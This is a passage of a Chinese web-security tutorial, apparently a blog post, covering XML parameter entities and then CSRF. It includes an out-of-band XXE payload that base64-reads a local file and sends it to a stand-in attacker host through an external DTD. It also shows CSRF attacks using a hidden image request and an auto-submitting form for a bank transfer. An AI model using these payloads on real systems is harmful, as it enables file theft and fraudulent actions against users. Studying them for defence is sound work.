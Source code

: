 XML的规范定义中，只有在DTD中才能引用参数实体. 参数实体的声明和引用都是以百分号%。并且参数实体的引用在DTD是理解解析的，替换文本将变成DTD的一部分。该类型的实体用“％”字符（或十六进制编码的％）声明，并且仅在经过解析和验证后才用于替换DTD中的文本或其他内容：
![](https://img-blog.csdnimg.cn/img_convert/bab76cf64f7da7b7bc85bbc2d1327a2b.png)

### 无回显-OOB

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///d:/test.txt">
<!ENTITY % dtd SYSTEM "http://xx.xx.xx.xx/test.dtd">
%dtd;
%send;
]>
test.dtd:
<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://xx.xx.xx.xx/?data=%file;'>"
>
```

服务器请求数据读取文件，然后将文件内容发送到远程服务地址的脚本，最后服务器再访问一次远程地址并把数据放到data=后面中，通过日志查看数据

## 总结

自定义内部实体一般情况下没有实质性的危害，真正有用的是可以引用外部资源的自定义外部实体，总结的是比较基础的知识点，通常可以利用引用外部实体进行读取绕过，或者OOB读取无回显。
# CSRF
## 什么是CSRF？
CSRF（Cross-Site Request Forgery），也称为“跨站请求伪造”，是一种常见的Web应用程序安全漏洞，攻击者利用用户已经登录的状态下，诱骗用户访问恶意网站或点击恶意链接，向受害者的Web向已登录应用程序发送伪造的HTTP请求，从而实现对受害者的攻击。

攻击者通过各种手段，例如在电子邮件中插入链接、在社交媒体上发布恶意链接或图片等方式引导用户点击，将受害者引导到恶意网站或页面，实现对用户账户的控制。当用户在已经登录的情况下访问恶意网站时，恶意网站或页面可能会发送HTTP请求，如更改用户信息、发起转账请求等，从而伪造用户的身份，向Web应用程序发送伪造请求，执行各种恶意操作

## CSRF攻击举例
假设有一个银行网站，该网站在用户登录后允许用户通过如下URL进行资金转账：
```
http://bank.example.com/transfer?amt=1000&toAccount=baimao
```
在这个URL中，amt 参数表示要转账的金额，而 toAccount 参数则是接收资金的账号。

如果用户在访问攻击者的网站时，攻击者的网页中包含了一个自动提交到上述银行URL的表单或者是通过JavaScript发起的请求，那么用户的浏览器可能会无意中发送转账请求：
```
<img src="http://bank.example.com/transfer?amt=1000&toAccount=hacker" style="display: none;">
```
如果用户已经登录了银行网站，他们的浏览器可能会自动使用用户的认证cookie来执行这个请求，导致资金被转移到攻击者指定的账户

## 漏洞代码详解
一个简单的漏洞Web网站可能用如下的HTML表单来处理用户的请求：
```
<form action="http://bank.example.com/transfer" method="POST">
  <input type="text" name="amt"/>
  <input type="text" name="toAccount"/>
  <input type="submit" value="Transfer Funds"/>
</form>
```
如果该网站没有验证请求是否是用户有意发起的，那么攻击者就可以创建一个自己的恶意网页，包含以下代码：
```
<form action="http://bank.example.com/transfer" method="POST" id="maliciousForm">
  <input type="hidden" name="amt" value="1000"/>
  <input type="hidden" name="toAccount" value="attacker"/>
</form>
<script>document.getElementById('maliciousForm').submit();</script>
```